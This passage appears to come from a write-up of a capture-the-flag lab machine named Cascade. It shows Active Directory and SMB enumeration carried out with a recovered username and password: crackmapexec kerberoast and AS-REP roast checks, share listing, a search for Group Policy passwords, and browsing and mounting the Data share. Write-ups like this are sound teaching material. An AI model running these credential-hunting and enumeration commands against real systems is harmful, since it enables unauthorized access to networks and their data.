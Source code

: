 ```sh
❯ cme ldap cascade -u r.thompson -p rY4n5eva --password-not-required
LDAP        cascade         389    CASC-DC1         User: a.turnbull Status: enabled
LDAP        cascade         389    CASC-DC1         User: CascGuest Status: disabled

# try logging into a.turnbull without password
❯ cme smb cascade -u a.turnbull -p ''
# logon failure... must have password set

# check kerberoast
❯ cme ldap cascade -u r.thompson -p rY4n5eva --kerberoasting kerberoast.hash
# no records found

# check asreproast
❯ cme ldap cascade -u r.thompson -p rY4n5eva --asreproast asreproast.hash
# no records found

# shares
❯ smbmap -H 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva'
[+] IP: 10.10.10.182:445	Name: cascade
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	Audit$                                            	NO ACCESS	
	C$                                                	NO ACCESS	Default share
	Data                                              	READ ONLY	
	IPC$                                              	NO ACCESS	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share
	print$                                            	READ ONLY	Printer Drivers
	SYSVOL                                            	READ ONLY	Logon server share

# look for GPP passwords
❯ impacket-Get-GPPPassword 'cascade.local/r.thompson:rY4n5eva@cascade'
# none found

# explore Data share
❯ smbclient //cascade/data -U 'cascade.local/r.thompson%rY4n5eva'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jan 26 22:27:34 2020
  ..                                  D        0  Sun Jan 26 22:27:34 2020
  Contractors                         D        0  Sun Jan 12 20:45:11 2020
  Finance                             D        0  Sun Jan 12 20:45:06 2020
  IT                                  D        0  Tue Jan 28 13:04:51 2020
  Production                          D        0  Sun Jan 12 20:45:18 2020
  Temps                               D        0  Sun Jan 12 20:45:15 2020
```

That's a lot of folders to dig through. I'm going to mount the drive so I can navigate and search easier.

```sh
cd /tmp
mkdir smb
sudo mount -t cifs -o username='r.thompson',password='rY4n5eva' //cascade/data /tmp/smb

tree smb
smb
├── Contractors
├── Finance
├── IT
│   ├── Email Archives
│   │   └── Meeting_Notes_June_2018.html
│   ├── LogonAudit
│   ├── Logs
```